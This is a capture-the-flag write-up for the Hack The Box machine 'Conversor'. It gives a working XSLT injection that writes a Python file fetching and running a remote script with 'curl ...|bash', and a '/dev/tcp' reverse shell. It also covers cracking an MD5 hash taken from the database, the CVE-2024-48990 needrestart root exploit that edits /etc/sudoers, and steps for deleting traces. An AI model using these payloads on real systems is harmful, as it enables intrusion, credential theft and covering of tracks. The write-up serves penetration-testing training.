


---

---

<h1 id="conversor-htb">Conversor HTB</h1>
<h2 id="introduction">Introduction</h2>

Conversor is a machine where you will learn to exploit file upload vulnerability, one of the most common vulnerability, this machine also challenges your programation skill in different languages.

<h2 id="step-1-nmap-recognition">Step 1, nmap recognition</h2>

First, we connect to the machine and do an easy nmap, with basic flags for nmap, the next ones:

<pre class=" language-bash"><code class="prism  language-bash">nmap --min-rate 5000 -p- -n -Pn -sS 10.10.11.92 -oX nmap.xml
</code></pre>
<ul>
<li><strong>—min-rate 5000:</strong> This flag tells nmap to send a minimum of 5000 packets per second</li>
<li><strong>-p-:</strong> Scans the 65535 existent ports</li>
<li><strong>-n:</strong>  It prevents from DNS resolving</li>
<li><strong>-Pn:</strong> Disable host discovery scanning (ping)</li>
<li><strong>-sS:</strong> Prevent from doing three-way handshake</li>
<li><strong>10.10.11.87:</strong> The IP address that we want to scan</li>
<li><strong>-oX nmap.xml:</strong> This mean, nmap will save the scan in a file, we will need a xml later</li>
</ul>

The nmap report the next ports:

<pre><code>PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
</code></pre>

So, we have the next information:

<ul>
<li>It’s a web server, hosted in port 80</li>
<li>It also has the SSH service</li>
</ul>

Let’s make an exhaustive scan in both ports:

<pre class=" language-bash"><code class="prism  language-bash">nmap -sC -sV --min-rate 5000 -p22,80 10.10.11.92
</code></pre>
<ul>
<li><strong>-sC:</strong> Uses the most popular scripts on nmap</li>
<li><strong>-sV:</strong> List the version of the services that are running on the ports</li>
<li><strong>-p22,80:</strong> We use this when we only want to scan determitade ports, in this case, 22 and 80</li>
</ul>

We get the next report:

<pre class=" language-bash"><code class="prism  language-bash">PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-title: Login
|_Requested resource was /login
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 17.32 seconds
</code></pre>

After this, if you want, you can do an ssh-auth-methods for SSH protocol with the next flags:

<pre class=" language-bash"><code class="prism  language-bash">nmap --script ssh-auth-methods -p 22 --min-rate 5000 10.10.11.92
</code></pre>

We get we can access with a publickey or a password:

<pre class=" language-bash"><code class="prism  language-bash">PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
80/tcp open  http
</code></pre>

This means later we can re-use some password in this service, with this, we end our recognition phase.

<h2 id="step-2-web-recognition">Step 2, web recognition</h2>

Okey let’s try to connect to the web:

This happens because our machine doesn’t know what the IP address means. To fix this, we need to do the following:

<pre class=" language-bash"><code class="prism  language-bash">sudo nano /etc/hosts
[...]
10.10.11.92 conversor.htb #&lt;---End of the file
</code></pre>
<blockquote>

The /etc/hosts file is an operating system configuration file (present in Linux, macOS, and other Unix-like systems) used to manually associate IP addresses with domain or host names.

In other words, it acts as a local mini DNS database.

Before the system queries a DNS server, it checks this file to see if the address is already defined there.

Usually HTB machines use the DNS name in the following format: 
machine_name.htb

</blockquote>

After we get access to the web, we will see a login panel, something like this: 

We don’t have credentials, so lets make an account, user and password doesn’t matters, do something like 1234: 

After creating an account and login in the website, we can see a upload file GUI, you can see a field where you need to upload a XML, and another with XSLT, let’s understand what each format is used for.

<h2 id="xml-and-xlst-explanation">XML and XLST Explanation</h2>

If you already know what is XML and XLST, you can jump to the next step, but if you want to know what each language is used for, read the next:

<h3 id="xml">XML</h3>
<ul>
<li>It’s like HTML but customizable</li>
<li>You define your own tags. It stores and transports data</li>
<li>Structured and readable.</li>
</ul>

Example:

<pre class=" language-xml"><code class="prism  language-xml">&lt;user&gt;
  &lt;name&gt;admin&lt;/name&gt;
  &lt;id&gt;1&lt;/id&gt;
&lt;/user&gt;
</code></pre>
<h3 id="xslt">XSLT</h3>
<ul>
<li>

Transforms XML into other formats, like a “translator”

</li>
<li>

Converts XML data to HTML, PDF, or other XML formats

</li>
<li>

Example: Takes the above XML and converts it into an HTML table

</li>
</ul>
<pre class=" language-xml"><code class="prism  language-xml">&lt;xsl:stylesheet version="1.0"&gt;
&lt;xsl:template match="/"&gt;
&lt;html&gt;
&lt;body&gt;
    &lt;h1&gt;&lt;xsl:value-of select="user/name"/&gt;&lt;/h1&gt;
    &lt;p&gt;id: &lt;xsl:value-of select="user/id"/&gt;&lt;/p&gt;
&lt;/body&gt;
&lt;/html&gt;
&lt;/xsl:template&gt;
&lt;/xsl:stylesheet&gt;
</code></pre>
<h3 id="where-to-use-in-cibersecurity">Where to use in cibersecurity?</h3>
<ul>
<li>XXE (XML External Entity): Injecting malicious code into XML</li>
<li>XSLT Injection: Manipulating transformations to execute malicious code</li>
</ul>

<h3 id="web-fuzzing">Web fuzzing</h3>

After we log in, we can try to upload files, but first let’s try some web fuzzing with ffuf:

<pre><code>ffuf -u http://conversor.htb/FUZZ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
</code></pre>
<ul>
<li><strong>-u:</strong> The URL we want to scan, with ffuf tool, we have to specify where to fuzz, if you can see, we use FUZZ to say where we want to make the scan</li>
<li><strong>-w:</strong> The wordlist we want to use, usually we want to use some from SecLists</li>
</ul>

After doing the fuzz, we discover a directory called “/about”, let’s go in the directory: 

We see an option called “Download Source Code”, if we download it, its a backup of the web but, without any credential, is full empty, but we can see the inside structure of the web, we see in the “instance” directory there is a DB with 2 tables, files and users, maybe we want to try later to look over here.

<h2 id="step-3-reverse-shell">Step 3, reverse shell</h2>

So, once we know what is each type of file that we can upload, lets try to do some reverse shell, is easy, the technique will be something like:

WebSite --&gt; 
Upload <strong>malicious</strong> XML and XLST with a reverse shell --&gt; 
Webserver <strong>execute</strong> malicious code --&gt; 
We got <strong>connection</strong> in the machine as www-data with netcat

Once we know what we have to do, let’s get to work, first, we will write our malicious XSLT:

<pre class=" language-xml"><code class="prism  language-xml">&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;xsl:stylesheet 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell"
    version="1.0"
&gt;
  &lt;xsl:template match="/"&gt;
    &lt;shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text"&gt;
import os			
os.system("curl 10.10.XX.XX:8000/shell.sh|bash")  // CHANGE WITH YOUR IP AND FILENAME!!
    &lt;/shell:document&gt;
  &lt;/xsl:template&gt;
&lt;/xsl:stylesheet&gt;
</code></pre>
<blockquote>

Little explanation of this script,  its writed on python: 
1.- We import OS library, for execute commands on the web once it executes, explained why it executes before 
2.- Uses the function .system to do a curl to our IP address and our port where we are hosting our python server, and downloads our file, in this case “<a href="http://shell.sh">shell.sh</a>” 
3.- After it downloads <a href="http://shell.sh">shell.sh</a>, we use a | to say to the system, the next command we want is to execute a bash

</blockquote>

Once we have our Shell.xslt, we have to write our <a href="http://shell.sh">shell.sh</a>, is pretty easy to write:

<pre class=" language-bash"><code class="prism  language-bash">sh -i &gt;&amp; /dev/tcp/10.10.XX.XX/4444 0&gt;&amp;1
</code></pre>
<blockquote>

Explanation of the revshell: 
1.- “sh -i” is used to send an interactive shell to some IP and some port, in this case the IP address is 10.10.XX.XX and the port 4444 
2.- &gt;&amp; /dev/tcp/10.10.XX.XX/4444, redirects STDOUT(1) y STDERR(2) al socket TCP 
3.- Redirects STDIN(0) to where the STDOUT aims

</blockquote>

If you want, you can get your reverse shells in “<a href="https://www.revshells.com">https://www.revshells.com</a>”

After all our files are writed, we start up a server in the directory:

<pre class=" language-bash"><code class="prism  language-bash">python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
</code></pre>

Okey, we have our python server running and the next files:

<pre class=" language-bash"><code class="prism  language-bash">ls
nmap.xml Shell.xslt shell.sh
</code></pre>

Nice, the second step of our reverse shell is do a netcat for getting the interactive shell, so we open a second terminal and do a netcat on the port 4444 (or the one you used for the shell)

<pre class=" language-bash"><code class="prism  language-bash">nc -lvnp 4444
listening on [any] 4444 ...
</code></pre>

We upload or .xml to the XML File section, and the same with our .xslt, and we convert, after this, the server will execute our .xslt, sending a curl for download or <a href="http://shell.sh">shell.sh</a>, (you may have wait some time because the server execute the files every minute) giving our access to the machine because we were hearing with netcat on the port 4444.

If we look our terminal where we were hosting the python server, we can appreciate how the IP 10.10.11.92 send a GET petition on /shell.sh, with code 200 (code 200 = connection succesful)

<h2 id="step-4-first-privilege-escalation">Step 4, first privilege escalation</h2>

Finally we have access as www-data, to confirm this, we do a whoami at the terminal that is inside the machine:

<pre class=" language-bash"><code class="prism  language-bash">$ whoami                                                                                             
www-data                                                                                                 
</code></pre>

So, lets do an ls and see what we have here:

<pre class=" language-bash"><code class="prism  language-bash">$ ls                                                                                                 
conversor.htb                                                                                                    
</code></pre>

Okey, if you remember, previously in the fuzzing, we discovered a backup of the web, that let us to know how the web is builded inside, conversor.htb is the real web, so we know there is a DB with users, let’s try use sqlite3 to navigate on the database:

<pre class=" language-bash"><code class="prism  language-bash">$ sqlite3 users.db                                                                                   
.tables                                                                                              
files  users                                                                                                  
SELECT * FROM users;
1|fismathack|5b5c3ac...                                                       
[...]
</code></pre>

Nice, we got a hash of the backend developer, previously seen in the /about directory at the web, maybe we want to crack him hash, because if we remember, when we do our nmap, we saw we can also access SSH by password.

<h2 id="step-5-cracking-password">Step 5, cracking password</h2>

We save the hash in our machine, in a .txt file, something like this:

<pre class=" language-bash"><code class="prism  language-bash">echo "5b5c3ac..." &gt; hash.txt
</code></pre>

Now we want to know what type of hash it is, we can use a lot of ways, but the two betters are, or using an hash-identifier tool, or get the hash length, I will show you both ways:

<h3 id="first-way-hash-identifier">First way, hash-identifier</h3>
<ul>
<li>We have a loot of tools, but we will be using “hash-identifier”, just put that on your console, then, paste the hash</li>
</ul>
<pre class=" language-bash"><code class="prism  language-bash">HASH: 5b5c3ac...

Possible Hashs:
[+] MD5
[...]
</code></pre>
<ul>
<li>So the tool says, its MD5.</li>
</ul>
<h3 id="second-way-hash-length">Second way, hash length</h3>
<ul>
<li>We will use basic commands:</li>
</ul>
<pre class=" language-bash"><code class="prism  language-bash">cat hash.txt | wc -c
33
</code></pre>
<ul>
<li>The tool reports 33 characters, let’s search online what hash can be, you can ask to an AI, or just search on google</li>
<li>We got the same result as before, its MD5</li>
</ul>

Once we know what type of hash we have (MD5), we have to crack it, i recommend to use hashcat, and rockyou.txt wordlist:

<pre class=" language-bash"><code class="prism  language-bash">hashcat -m 0 hash.txt rockyou.txt --show
</code></pre>
<ul>
<li><strong>-m 0:</strong> Used to specify what type of hash it is, in this case, MD5 stands for -m 0</li>
<li><strong>-show:</strong> Show us the password</li>
</ul>

Hashcat throw the next answer:

<pre class=" language-bash"><code class="prism  language-bash">5b5c3ac...:Keepm...
</code></pre>

At the left, the hash, and in the right, the dehashed password.

Let’s enumerate what we have:

<ul>
<li>We know we can connect via SSH to the machine</li>
<li>We have the password of the backend developer</li>
</ul>

Now we have the password, why not to try a re-use password attack?

<h2 id="step-6-user.txt">Step 6, user.txt</h2>

We connect via SSH to the server with the username of the backend developer, fismat… (you have seen the name at <a href="http://conversor.htb/about">http://conversor.htb/about</a>)

<pre class=" language-bash"><code class="prism  language-bash">ssh fismat...@10.10.11.92
fismat@10.10.11.92's password:
</code></pre>

This is good, the SSH accepts the username, let’s try the password that we have just cracked.

<strong>Bingo!</strong> We are in with a user-level shell, not bad, but we want more, we want root, but first, lets try a ls:

<pre class=" language-bash"><code class="prism  language-bash">ls
user.txt
cat user.txt
5d80709...
</code></pre>

There you have, the user.txt flag.

<h2 id="step-7-root.txt-flag">Step 7, root.txt flag</h2>

Once we are user, we want try an easy sudo -l

<pre class=" language-bash"><code class="prism  language-bash">sudo -l
Matching Defaults entries for fismat... on conversor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismat... may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
</code></pre>

We have a privilege escalation path, we can execute needrestart as sudo without password, lets find online some information about this.

<h3 id="cve-2024-48990">CVE-2024-48990</h3>

The CVE-2024-48990 is a privilege escalation vulnerability in needrestart, a tool that checks for services requiring restart.  It allows path traversal via symbolic links, enabling arbitrary file writing as root.  This vulnerability is exploited by abusing temporary files in /tmp to overwrite system files and gain root access.

So, let’s exploit this vulnerability and get root.

<h3 id="what-we-need">What we need?</h3>

First, we will do a git clone and download the Proof of Concept of the CVE:

<pre class=" language-bash"><code class="prism  language-bash">git clonehttps://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing"
</code></pre>

(You also can get the raw file at: “<a href="https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing">https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing</a>”) 
After downloading this, we will do a C file, you use nano and create a file with the name of “lib.c”

<pre class=" language-bash"><code class="prism  language-bash">nano lib.c
</code></pre>

And you paste this there (it’s how its explained at the PoC)

<pre class=" language-c"><code class="prism  language-c">#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;

static void a() __attribute__((constructor));

void a() {
    if (geteuid() == 0) {  // Only execute if we're running with root privileges
        setuid(0);
        setgid(0);
        const char *shell = "cp /bin/sh /tmp/poc; "
                            "chmod u+s /tmp/poc; "
                            "grep -qxF 'ALL ALL=NOPASSWD: /tmp/poc' /etc/sudoers || "
                            "echo 'ALL ALL=NOPASSWD: /tmp/poc' | tee -a /etc/sudoers &gt; /dev/null &amp;";
        system(shell);
    }
}
</code></pre>

After creating lib.c, we want to use a builder:

<pre class=" language-bash"><code class="prism  language-bash">gcc -shared -fPIC -o __init__.so lib.c
</code></pre>

This creates a output file called: <code>__init__.so</code>, from lib.c code

Okey, after, we open <a href="http://runner.sh">runner.sh</a> and change the IP address and port, finally, our work directory would look like this:

<pre class=" language-bash"><code class="prism  language-bash">ls
images  __init__.so  lib.c  README.md  runner.sh
</code></pre>

Images and <a href="http://README.md">README.md</a> files are irrelevant, but let them there.

Next step, in our ssh terminal, we go to tmp:

<pre class=" language-bash"><code class="prism  language-bash">fismat...@conversor:~$ cd /tmp
</code></pre>

Once we are at tmp, we start the python server on our other terminal, where all our exploits are located:

<pre class=" language-bash"><code class="prism  language-bash">python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
</code></pre>

From the SSH shell, we do a wget to our ip for downloading <a href="http://runner.sh">runner.sh</a>:

<pre class=" language-bash"><code class="prism  language-bash">wget 10.10.XX.XX:8000/runner.sh
</code></pre>

We download it and give execution permissions

<pre class=" language-bash"><code class="prism  language-bash">chmod +x runner.sh
</code></pre>

Then:

<pre class=" language-bash"><code class="prism  language-bash">./runner.sh
</code></pre>

We probably will see something like this:

<pre class=" language-bash"><code class="prism  language-bash">  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15520  100 15520    0     0   6109      0  0:00:02  0:00:02 --:--:--  6107

</code></pre>

We can’t do anything, and, no, you don’t have do anything wrong, you need to open another terminal, connect via SSH and execute:

<pre class=" language-bash"><code class="prism  language-bash">sudo /usr/sbin/needrestart
</code></pre>

And, in the terminal where you executed <a href="http://runner.sh">runner.sh</a>, you will see something like:

<pre class=" language-bash"><code class="prism  language-bash">  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15520  100 15520    0     0   6109      0  0:00:02  0:00:02 --:--:--  6107
Got shell!, delete traces in /tmp/poc, /tmp/malicious

</code></pre>

Just do:

<pre class=" language-bash"><code class="prism  language-bash">whoami
root
</code></pre>

Finally, we are root, go to root and open root.txt:

<pre class=" language-bash"><code class="prism  language-bash">cat /root/root.txt
93a7bb...
</code></pre>

You have finished conversor, congratulations!

<h2 id="step-8-cleaning-our-ip-from-machine">Step 8, cleaning our IP from machine</h2>

This is quite optional, but if you want to learn some OPSEC, read this: 
You remember previously we uploaded a shell with our IP to the server right? Well, the machine store ALL the files that are uploaded, so after we are root, we want to destroy proofs that we have been here

First, remove malicious directory:

<pre class=" language-bash"><code class="prism  language-bash">rm malicious/importlib/*
rmdir malicious/importlib
rm malicious/*
rmdir malicious
rm runner.sh
</code></pre>

Then, go to web configuration:

<pre class=" language-bash"><code class="prism  language-bash">cd /var/www/conversor.htb
ls
app.py  app.wsgi  instance  __pycache__  scripts  static  templates  uploads
cd uploads
ls
[you_will_see_here_all_the_files]
rm Shell.xslt
rm nmap.xml
</code></pre>

After this, we want to clean our user of the web, go to instance

<pre class=" language-bash"><code class="prism  language-bash">cd ..
cd instance
sqlite3 users.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite&gt; .tables
files users
sqlite&gt; .schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
</code></pre>

Then, we search our user, look at the ID and use:

<pre class=" language-bash"><code class="prism  language-bash">DELETE FROM users WHERE id = {your_id};
</code></pre>

Finally, you have completed the machine and cleaned your shells and user, this machine is fully completed!

